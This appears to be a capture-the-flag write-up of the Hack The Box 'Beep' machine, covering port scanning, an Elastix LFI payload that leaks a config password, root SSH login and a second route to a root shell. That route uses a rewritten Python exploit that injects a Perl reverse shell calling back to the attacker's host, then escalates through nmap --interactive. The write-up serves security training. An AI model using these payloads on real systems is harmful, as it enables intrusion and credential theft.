










Box author | 

<!--more-->

## Nmap

As always. I'm gonna run the Nmap scan against this IP address `10.10.10.7`.  Here is the result of the scan

### the result

```sql
# Nmap 7.92 scan initiated Sun Jan 16 05:37:13 2022 as: nmap -sC -sV -p- -oN nmap/beep_all 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.056s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING TOP APOP LOGIN-DELAY(0) EXPIRE(NEVER) UIDL USER STLS IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE RESP-CODES
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: RENAME OK THREAD=REFERENCES IMAP4rev1 SORT=MODSEQ ID X-NETSCAPE LIST-SUBSCRIBED ACL NAMESPACE CATENATE LISTEXT RIGHTS=kxte SORT NO QUOTA IDLE CONDSTORE IMAP4 ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY ATOMIC URLAUTHA0001 CHILDREN UNSELECT Completed UIDPLUS MULTIAPPEND LITERAL+ MAILBOX-REFERRALS STARTTLS
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2022-01-15T22:41:00+00:00; +1h00m01s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 16 05:42:46 2022 -- 1 IP address (1 host up) scanned in 332.87 seconds
```

that's bunch of the open ports on this machine. 

### Webserver

This machine has apache running on `port 80`. When I visited the page it was redirected into `port 443` which is the Elastix login page.


### Gobuster
Well, I'm gonna run the `gobuster` on this webserver. Try to find any hidden directory on it. I'm gonna use the `PHP` as `-x` extension because this server running on PHP.



### /admin

The `/admin` really does sound good to me. When I visited the admin page. It's prompt me with `login forms`.



I try a bunch of passwords such as `admin:admin` but it doesn't work. However, when I clicked the `cancel` button. It goes to this page `https://10.10.10.7/admin/config.php` and displays the `Unauthorized` message.



### Local File Inclusion/LFI
This box has an `LFI` tag on it. I know it sounds not fair at all but information matters. 
So, I'm run the `searchsploit` and found this.



I'm gonna mirror/copy this exploit in my current directory with `-m` flag. Here is the exploit/PoC :
```js
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

it's basically, using `current_language` as the parameter. This `PoC` already includes the `config file` on it. I'm gonna copy/paste this in my browser and VOILA!



I managed to grab a bunch of passwords that appear in this file but a lot of passwords seem to be `commented` out. 
Just one password does not get commented out and appears more often in here.

## Method: 1

### SSH

The Nmap scan result shows us `port 22` is open. Well, I've got the potential password and don't know what users it belongs to. So, I'm gonna try my luck to go with the `root` user


Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. </br>
Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1



If you get one of these errors just like me. You need to run an ssh command like this


```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```


source - [Solution for SSH unable to Negotiate Errors](https://www.infosecmatter.com/solution-for-ssh-unable-to-negotiate-errors/)



Finally, I login in as root through `SSH`. Let's get the `user` and `root` flags.

### the flag



## Method: 2

### RCE

The last exploit I'm using was `LFI 'graph.php'` and the version of `Elastix` was `2.2.0` and this `RCE` have the same version of Elastix.



As always, I'm gonna mirror/copy this exploit into my current working directory with the `-m` flag. When I ran the exploit it shows a bunch of errors regard to `SSL`. I tried fixing the error by changing the python code and it was painful but I managed to fix it. Here is the code:

### 18650.py3

```python
#!/usr/bin/python3
import ssl, urllib3

rhost = "10.10.10.7"
lhost = input("lhost>: ") 
lport = input("lport>: ")        
ext = input("ext>: ")
head = f"https://{rhost}/recordings/misc/callme_page.php?action=c&callmenum={ext}@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20"
payload = f"perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22{lhost}%3a{lport}%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'"
url = head + payload

# SSL Handler
urllib3.disable_warnings()
http = urllib3.PoolManager(cert_reqs="CERT_NONE")

# Execute
print("ExPl0itInG...")
http.request("GET", url)
```

### svwar/SIPVicious
I ran the exploit one more time and it doesn't work. I'm speechless and I saw the `extension` in the original script that set the value into `1000` and maybe this is not a valid extension. So, I'm gonna run the `svwar/SIPVicious` tool to identify a working extension.
 
I'm gonna run this command:
```bash
svwar -m INVITE -e100-400 10.10.10.7
```
 

 
## Shell as Asterisk
Now, let's run the exploit again and make sure to set up the Netcat listener first.
 

 
YES! it worked. Based on the comment in the original exploit, I can be a root user by using `nmap --interactive`. Let's do it. 
 


TADAA!! Now, I'm a root user.